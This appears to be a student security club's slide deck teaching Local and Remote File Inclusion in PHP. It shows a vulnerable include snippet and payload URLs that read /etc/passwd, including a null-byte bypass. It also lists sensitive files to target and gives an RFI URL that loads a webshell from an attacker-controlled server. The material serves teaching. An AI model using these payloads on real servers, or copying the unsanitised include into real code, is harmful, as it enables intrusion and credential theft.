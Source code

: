 # Local File Inclusion

By: Nick Bulischeck

CU Cyber


## You Can Find These Presentations Online

Visit [cucyber.net](https://cucyber.net/) to find these presentations and more online!

<span style="padding-top: 6em; font-size: 0.4em; float: left;">Material: <a href="https://tldrlegal.com/license/creative-commons-attribution-sharealike-4.0-international-(cc-by-sa-4.0)">Creative Commons Attribution-ShareAlike 4.0</a></span><span style="padding-top: 6em; font-size: 0.4em; float: right;">Code: <a href="https://tldrlegal.com/license/bsd-2-clause-license-(freebsd)">BSD 2-Clause</a></span>



## What is Local File Inclusion?

* LFI is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application

Note:
Watch Ippsec do LFI using burp: https://youtu.be/rs4zEwONzzk?t=385


## How Does LFI Get Into Code?

* The vulnerability occurs due to the use of user-supplied input without proper validation
* More specifically, `include` statements are not properly sanitized



## Testing for LFI

* In a blackbox testing approach, we should look for scripts which take filenames as parameters


### Testing for LFI

* `http://127.0.0.1/view.php?file=index.html`

```
<?php
  include($_GET['file']);
?>
```



## Exploiting LFI

Note:
Now that you know how LFI works, how would you use it to exploit the server?


### Exploiting LFI

* `http://127.0.0.1/view.php?file=/etc/passwd`


### Interesting Linux File Paths

* /etc/issue
* /proc/version
* /etc/profile
* /etc/passwd
* /etc/shadow
* /root/.bash_history
* /var/mail/root
* /var/spool/cron/crontabs/root


### Interesting Windows File Paths

* C:\WINDOWS\System32\drivers\etc\hosts
* C:\WINDOWS\system32\eula.txt
* User Enumeration
  * C:\Users\\[USERNAME]\Desktop\desktop.ini



### Bypassing LFI File Restrictions

```
<?php
  include($_GET['file'] . ".php");
?>
```

Note:
* How are C strings represented in memory?
* What happens when strlen finds a null character?


### Bypassing LFI File Restrictions

* `http://127.0.0.1/view.php?file=/etc/passwd%00`

Note:
This was fixed as of 5.3.4.


## Remote File Inclusion

* In RFI, the attacker is able to execute code hosted on their own machine.

Note: 
Watch Ippsec attempt RFI: https://youtu.be/rs4zEwONzzk?t=520


### RFI Example

`http://vulnerable/index.php?page=http://yourserver/webshell.txt&cmd=ifconfig`



## Lab Demo



# Questions?
